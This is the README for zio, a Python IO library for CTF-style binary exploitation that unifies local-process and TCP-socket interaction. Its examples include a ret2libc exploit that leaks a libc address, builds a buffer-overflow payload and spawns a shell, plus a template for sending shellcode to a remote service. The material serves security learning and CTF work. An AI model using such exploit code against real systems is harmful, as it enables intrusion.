 
zio
====

`zio <https://github.com/zTrix/zio>`_ is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of `zio <https://github.com/zTrix/zio>`_ is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

.. code:: python

    from zio3 import *

    if you_are_debugging_local_server_binary:
        io = zio('./buggy-server')            # used for local pwning development
    elif you_are_pwning_remote_server:
        io = zio(('1.2.3.4', 1337))           # used to exploit remote service

    io.write(your_awesome_ropchain_or_shellcode)
    # hey, we got an interactive shell!
    io.interact()

License
=======

`zio <https://github.com/zTrix/zio>`_ use `SATA License (Star And Thank Author License) <https://github.com/zTrix/sata-license>`_, so you have to star this project before using. Read the LICENSE.txt carefully.

Dependency
==========

 - Linux or OSX
 - Python 3.5, 3.6
 - termcolor (optional, for color support)
    - $ pip3 install termcolor

Installation
============

This is a single-file project so in most cases you can just download `zio.py <https://raw.githubusercontent.com/zTrix/zio/master/zio.py>`_ and start using.

pip is also supported, so you can also install by running 

.. code:: bash

    $ pip3 install termcolor # for color support, optional
    $ pip3 install zio3

Examples
========
 
.. code:: python

    from zio3 import *
    io = zio('./buggy-server')
    # io = zio((pwn.server, 1337))

    for i in xrange(1337):
        io.writeline('add ' + str(i))
        io.read_until('>>')

    io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
    io.read_until('A' * 49)
    libc_base = l32(io.read(4)) - 0x1a9960
    libc_system = libc_base + 0x3ea70
    libc_binsh = libc_base + 0x15fcbf
    payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
    io.write('info ' + payload + "\nshow\nexit\n")
    io.read_until(">>")
    # We've got a shell;-)
    io.interact()

Document
========

To be added... Please wait...

about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

Thanks (Also references)
========================

 - `pexpect <https://github.com/pexpect/pexpect>`_ I borrowed a lot of code from here
 - `sh <https://github.com/amoffat/sh>`_
 - python subprocess module
 - TTY related
    - http://linux.die.net/man/3/cfmakeraw
    - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
    - http://www.linusakesson.net/programming/tty/


